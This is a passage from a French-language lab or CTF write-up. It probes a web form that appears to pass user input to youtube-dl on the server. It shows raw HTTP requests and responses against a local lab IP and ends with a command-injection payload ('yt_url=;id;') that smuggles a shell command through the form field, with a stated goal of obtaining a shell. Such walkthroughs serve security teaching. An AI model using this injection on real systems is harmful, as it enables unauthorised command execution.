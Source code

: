 On remarquera aussi le numéro de **retour de la commande** égal à **0** qui avait dans le code **Javascript** et dessus et qui correspond à une bonne exécution.

Ça c'était pour l'utilisation **"normale"** du site.

Mais comme nous cherchons des vulnérabilités, on va tenter autre chose.                                                                                                                          
Que se passe-t-il si on tenter de rentrer n'importe quoi dans le champ texte ? Peut-on exécuter des commandes ? Si oui alors il y a une vulnérabilité et donc on pourra potentiellement obtenir un shell par ce moyen.

En envoyant **test** comme ID, on obtient un message d'erreur (qui vaut 1) et qui nous dit que l'ID n'est pas complet.

```bash
POST / HTTP/1.1
Host: 192.168.1.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.47
Connection: close
Referer: http://192.168.1.47/

yt_url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dtest
```


```bash
HTTP/1.1 200 OK
Date: Thu, 06 Aug 2020 21:33:22 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 386
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Incomplete YouTube ID 
test. URL https:\/\/www.youtube.com\/watch?v=test looks truncated.\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=test","output":"","result_url":"\/tmp\/downloads\/5f2c7722bcf1a.mp3"}
```

On imagine que l'outil **youtube_dl** est utilisé directement sur la machine cible pour télécharger les fichiers demandés.                                                                          
Tentons d'exécuter une commande basique : **id**. Comme l'outil est utilisé en ligne de commandes (enfin on le suppose) alors on va entourer notre commande par ``;`` pour terminer la commande précédente, exécuter la notre et potentiellement empêcher ce qui suit d'interférer avec notre résultat : 

```bash
POST / HTTP/1.1
Host: 192.168.1.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.47
Connection: close
Referer: http://192.168.1.47/

yt_url=;id;
```